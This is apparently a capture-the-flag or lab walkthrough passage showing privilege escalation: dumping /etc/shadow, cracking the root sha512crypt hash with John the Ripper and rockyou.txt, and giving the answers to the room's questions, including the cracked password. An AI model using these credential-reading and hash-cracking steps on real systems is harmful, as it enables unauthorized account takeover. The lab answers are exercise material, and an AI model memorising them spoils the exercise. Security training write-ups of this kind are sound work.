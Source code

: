 to view contents & passwd of it commands is

```bash
cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
...
```

Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

```bash
john  --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root) 
1g 0:00:00:39 DONE (2025-08-15 02:27) 0.02543g/s 1569p/s 1569c/s 1569C/s pussy6..neptune1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

<img width="1902" height="142" alt="IPE1" src="https://github.com/user-attachments/assets/dbf7ea04-708f-4a37-be4e-27422f3c73c8" />

got passwd `password123` & login in root.

What is the root user's password hash?

Answer:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::

What hashing algorithm was used to produce the root user's password hash?

Answer:sha512crypt

What is the root user's password?

password123
